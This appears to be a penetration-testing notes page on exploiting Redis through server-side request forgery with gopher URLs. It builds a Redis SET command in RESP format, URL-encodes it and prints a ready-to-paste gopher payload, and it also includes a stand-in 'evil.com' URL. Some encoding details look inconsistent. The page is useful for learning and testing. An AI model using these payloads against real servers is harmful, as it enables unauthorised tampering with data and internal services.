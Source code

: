```yaml
---
title: Redis SSRF
description: 
tags:
    - Web
refs:
    - https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b
date: 2023-09-09
draft: false
---
```


## Investigation

If the target server runs Redis server and the website interacts with the Redis server, we can modify the key value in the Redis and reflects the result through SSRF using **gopher**.

```bash
url=http://evil.com/
```

<br />

## Exploitation

### Automation

We can use [Gopherus](https://github.com/tarunkant/Gopherus) to create a payload.

### Payload Manually

To make the payload for SSRF manually, we need to know what commands to insert.  
To make it clear, try to demonstrate the command (RESP format) to update the target key value in Redis. Please see the [Redis commands](redis-pentesting.md) for details.

Below is the example command same as **`SET user ...`**.

```bash
telnet 10.0.0.1 6379
*3 # 3 arguments ("SET", "user", "")
$3 # 3 length of the string "SET"
SET
$4 # 4 length of the string "user" key
user
$18 # 18 length of the string ""
ping+-c+1+10.0.0.2
```

Then we need to format the above command for the gopher URL. It’s need to be URL encoded conained **`%0D%0A (\r\n)`**.

```bash
gopher://10.0.0.1:6379/_%0D
%0D%0A # \r\n
%2A3 # *3
%0D%0A # \r\n
%243 # $3
%0D%0A # \r\n
SET
%0D%0A # \r\n
%244 # $4
%0D%0A # \r\n
user
%0D%0A # \r\n
%2418 # $18
%0D%0A
ping%2B%2Dc%2B1%2B10%2E0%2E0%2E2 # ping+-c+1+10.0.0.2
%0D%0A
```

Finally we get the payload.

```bash
gopher://10.0.0.1:6379/_%250D%0A%250D%250A%0A%252A3%0A%250D%250A%0A%25243%0A%250D%250A%0ASET%0A%250D%250A%0A%25244%0A%250D%250A%0Auser%0A%250D%250A%0A%252418%0A%250D%250A%0Aping+-c+1+10.0.0.2%0A%250D%250A
```

Copy it and paste to where the payload affects the result.